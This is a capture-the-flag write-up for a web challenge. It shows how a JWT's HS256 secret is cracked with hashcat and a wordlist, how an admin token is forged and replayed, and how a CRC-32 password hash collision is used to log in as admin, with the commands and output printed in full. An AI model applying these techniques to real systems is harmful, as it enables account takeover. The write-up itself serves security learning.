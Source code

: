 ![](Pasted%20image%2020210809192708.png)

*TLDR: This is a 2 step challenge where the first steps consist in crack a JWT token and crafting a modified JWT token. The second steps consists of finding a CRC-32 hash collision in order to login to the admin account.*

The website is pretty empty when you navigate to it: 
![](Pasted%20image%2020210809193913.png)

We navigate to register and sign up with the following credentials `hello:hello`:
![](Pasted%20image%2020210809194246.png)

We navigate to capsule in order and find a get specs button:
![](Pasted%20image%2020210809194344.png)

Clicking on this button gives us a generic message without much context:
```
Successfully retrieved and reviewed your specs. You are all ready for launch.
```

By inspecting the request we see that the website appears to be using JWTs (furthermore the Angular favicon hints that this is a frontend application and therefore may be using JWTs):

![](Pasted%20image%2020210809194600.png)

We can decode quickly in the terminal by splitting on the dots (.), base64 decoding each parts and redirecting errors to `/dev/null`:
```
$ for i in `echo "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkYXRhIjp7ImlkIjo2LCJ1c2VybmFtZSI6ImhlbGxvIiwiZW1haWwiOiJoZWxsbyIsInBhc3N3b3JkIjoiOTA3MDYwODcwIn0sImlhdCI6MTYyODUwMjE3NX0.t6P8-epQ1zXUbdgXaA7vQ67JP0ZWE8sy0RaVt55s8Y4" | tr "." "\n"`; do echo $i | base64 -d 2&>/dev/null; done
{"alg":"HS256","typ":"JWT"}{"data":{"id":6,"username":"hello","email":"hello","password":"907060870"},"iat":1628502175}
```

The JWT appears to be storing the email, the username and the password hash.

Try to set the algorithm to None didn't work, however since this is an HS256 token, it's signed using a secret and we can therefore try to bruteforce the secret key.

We can use hashcat to bruteforce the key as such:
```
# -m 16500 for JWT token mode
% hashcat -m 16500 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --force
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Core(TM) i7-8665U CPU @ 1.90GHz, 2048/5918 MB allocatable, 3MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=1 -D DGST_R2=2 -D DGST_R3=3 -D DGST_ELEM=16 -D KERN_TYPE=16511 -D _unroll'
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkYXRhIjp7ImlkIjo2LCJ1c2VybmFtZSI6ImhlbGxvIiwiZW1haWwiOiJoZWxsbyIsInBhc3N3b3JkIjoiOTA3MDYwODcwIn0sImlhdCI6MTYyODUwMjE3NX0.t6P8-epQ1zXUbdgXaA7vQ67JP0ZWE8sy0RaVt55s8Y4:skylark140584

Session..........: hashcat
Status...........: Cracked
Hash.Type........: JWT (JSON Web Token)
Hash.Target......: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkYXRhIjp7Im...55s8Y4
Time.Started.....: Mon Aug  9 19:53:16 2021 (3 secs)
Time.Estimated...: Mon Aug  9 19:53:19 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1062.3 kH/s (2.22ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 3707904/14344385 (25.85%)
Rejected.........: 0/3707904 (0.00%)
Restore.Point....: 3704832/14344385 (25.83%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: slabriderpro -> skykin

Started: Mon Aug  9 19:53:14 2021
Stopped: Mon Aug  9 19:53:20 2021
%                                                  
```

Using jwt.io we craft a JWT token with the admin's username and id 1 (we assume id 1 is the admin):
![](Pasted%20image%2020210809200049.png)

We use Burp Repeater to replay the `GET /user/capsule` request with our newly crafted token and we get our first flag:
![](Pasted%20image%2020210809200213.png)

We also get the admin's username, email and password "hash":
```
{
	"id":4,
	"username":"admin",
	"email":"admin@spacerace.com",
	"password":"-432570933"
}
```

![](Pasted%20image%2020210809201712.png)

The challenge description gives us a hint that this is a `non-cryptographic hashing algorithm`.

Looking at the non-cryptographic hash types, the first thing that comes up is CRC (Cyclic redundancy checks):

![](Pasted%20image%2020210809202017.png)

CRC-32 also appears to match our hash length.

From our earlier account, we know that the password `hello` hashes to `907060870`:
```
{"id":6,"username":"hello","email":"hello","password":"907060870"},"iat":1628502175}
```

Using ipython we can confirm that this is actually a CRC-32 hash: 
```
In [1]: import binascii

In [2]: print(binascii.crc32("hello"))
907060870
```

We know that the admin password has a CRC-32 hash of "-432570933" and since a CRC-32 hash length is only 32 bits and that its a non-cryptographic hashing algorithm, we can assume that we have to find a hash collision that matches "-432570933" to login to the admin's account.

Python CRC-32 hashing prior to python 3 used to allow negative CRC-32 checksums because it was using signed integers to store the result of the checksum. However, CRC-32 should only return unsigned integers. Hence, we need to convert it.

Using bit manipulation, we can convert it from an signed integer to an unsigned int:
```
In [3]: print -432570933 & 0xffffffff
3862396363
```

So if we manage to find a hash collision for 3862396363, we can use that to login as the admin user.

We couldn't find a program for this so we decide to write our own:
https://github.com/fyxme/crc-32-hash-collider

When we run it, we get a collision back pretty quickly:
```
$ go run collide.go
Collision found: 4iSg@
```

Again we can verify this collision hashes to "-432570933" using python:
```
In [1]: import binascii
In [2]: print(binascii.crc32("4iSg@"))
-432570933
```

Lastly we login to the web application as the admin user using `4iSg@` as the password.

This gives us our second and final flag for this challenge:
![](Pasted%20image%2020210809204115.png)